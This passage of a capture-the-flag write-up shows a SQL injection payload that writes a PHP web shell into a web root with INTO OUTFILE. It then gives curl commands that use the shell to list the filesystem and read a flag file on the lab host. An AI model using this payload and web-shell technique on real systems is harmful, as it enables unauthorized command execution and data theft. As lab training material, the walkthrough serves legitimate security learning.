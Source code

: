 <img width="1547" height="374" alt="image" src="https://github.com/user-attachments/assets/53cdf450-c11e-4c6b-a55b-62b83ba0bde6" />


Root can read and write files to any directory in the entire file system. Write a PHP web shell shell.php:

`' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>', "", "", "" INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -`

<img width="1725" height="343" alt="image" src="https://github.com/user-attachments/assets/1ab17b55-8823-4de8-9b64-2e4ad4e3c8ed" />

CURL to invoke the web shell, passing commands to the URL parameter cmd: 

`curl -w "\n" -s http://94.237.49.23:55873/dashboard/shell.php?cmd=ls+/ | sed -e '1,2d'`

```
$ curl -w "\n" -s http://94.237.49.23:55873/dashboard/shell.php?cmd=ls+/ | sed -e '1,2d'
	bin
boot
dev
etc
flag_cae1dadcd174.txt   <----------------- here 
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Print its contents out with cat cmd: 

```
curl -w "\n" -s http://94.237.49.23:55873/dashboard/shell.php?cmd=cat+/flag_cae1dadcd174.txt | sed -e '1,2d'
	528d6dxxxxxxxxxxxxx46ef226e918396
```
---









